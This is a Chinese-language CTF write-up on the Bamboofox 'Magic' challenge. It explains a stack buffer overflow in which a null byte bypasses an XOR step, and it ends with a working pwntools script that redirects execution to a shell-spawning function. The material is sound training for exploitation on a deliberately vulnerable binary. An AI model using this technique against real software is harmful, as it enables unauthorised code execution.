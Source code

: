 ```yaml
---
title: 'Write-up:: Bamboofox-Wargame'
author: "TwinkleStar03"
tags: [BamboofoxCTF, Pwnable, Write-Up]
categories: [CTF]
date: 2019-07-21
---
```


Bamboofox CTF解題記錄，一如往常地到處找題目增進自己打CTF的戰力╰(*°▽°*)╯

<!--more-->

我選擇先從[這裡](https://bamboofox.cs.nctu.edu.tw/courses/2/challenges)開始做

-----

# Writeup #

-----

## Wargame 0-1 Magic [100] ##
>Description
Do you believe in magic?

>Hint
Stack buffer overflow

拿到檔案，magic: ELF 32-bit LSB executable，提示已經告知是Stack buffer overflow了，所以我直接IDA拆開來看了。

![有漏洞的函式Magic()](/images/BamboofoxCTF/Magic/disass.JPG)
然後還有一個never_use()可以用來開shell，所以題目應該是希望我們把ret address指到該函式。

從`ax, [ebp-44h]`可知buffer大小是0x44，然後因為`mov     dword ptr [esp], offset aS ; "%s"`可知scanf()的格式化參數是%s，所以可以用垃圾把Buffer塞爆。

已經了解Buffer overflow成立之後就來建構payload吧! 

需要塞0x44個byte進去把Buffer塞滿，這樣做之後會頂到ebp，所以在額外塞0x4個byte頂過ebp，這邊開始就是return address了! 蓋上never_use()的記憶體位置完成攻擊~
Payload: 0x48個byte + never_use()的位置

其實這樣攻擊是不會成功的，因為還有一個函式被忽略了，do_magic()，題目直接給出source
```c
void do_magic(char *buf,int n)
{
        int i;
        srand(time(NULL));
        for (i = 0; i < n; i++)
                buf[i] ^= rand()%256;
}

void magic()
{
        char magic_str[60];
        scanf("%s", magic_str);
        do_magic(magic_str, strlen(magic_str));
        printf("%s", magic_str);
}
```
如果不對do_magic進行繞過，那payload會直接跟亂數XOR變成垃圾QQ

由呼叫do_magic的地方可知控制XOR的次數是透過strlen()，這個函式會計算字串的字元數，停下來的方法是讀到一個\x00，那我們就提早讓他停下來就好!

所以payload變成: 0x1個byte + \x00 + (0x44 + 0x4 - 0x2) + never_use()的位置

```python Payload.py
from pwn import *


host = 'bamboofox.cs.nctu.edu.tw'
port = 10000

p = process('./magic')

# p = remote(host, port)

p.recvuntil(':')

p.sendline('A')

p.recvuntil(':')

p.sendline('A' + '\x00' + 'A' * 70 + p32(0x8048613))

p.interactive()
```


